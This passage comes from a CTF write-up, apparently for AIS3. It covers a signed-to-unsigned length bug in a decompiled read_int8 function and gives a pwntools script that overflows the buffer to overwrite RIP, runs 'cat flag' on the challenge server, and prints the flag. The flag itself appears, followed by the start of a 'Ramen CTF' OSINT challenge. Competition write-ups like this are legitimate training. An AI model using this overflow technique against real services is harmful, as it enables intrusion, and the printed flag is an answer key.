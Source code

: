 ```c {hl_lines=[8,13]}
__int64 read_int8()
{
  char buf[4]; // [rsp+8h] [rbp-8h] BYREF
  int input; // [rsp+Ch] [rbp-4h]

  read(0, buf, 4uLL);
  input = atoi(buf);
  if ( input > 127 )
  {
    puts(&byte_402A38);
    exit(1);
  }
  return (unsigned int)input;
}
```
notice our length input can go negative, and that its casted to unsigned int after\
which means if we input `-1`, it'll actually become `4294967295`\
since we control read length, we can buffer overflow to overwrite RIP!
```py
from pwn import *
import base64

p = remote('chals1.ais3.org', 60140)

p.recvline()
p.sendline(b'yes')
p.sendlineafter(b': ', b'-1')

payload = b'A' * 168 + p64(0x401256)
p.sendlineafter(b': ', payload)

p.sendline(b'cat flag')
p.recvuntil(b'AIS3')
ans = p.recvline()
print(base64.b64encode(ans)) #unicode chars doesnt get sent properly
```
flag: **`AIS{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._8433ec16cb656784bb6b668165e9895b}`**

# Misc
## Ramen CTF
> 我在吃 CTF，喔不對，拉麵，但我忘記我在哪間店吃了．．．，請幫我找出來\
> (P.S. FlagFormat: AIS3{google map 上的店家名稱:我點的品項在菜單上的名稱})\
> Author: whale120\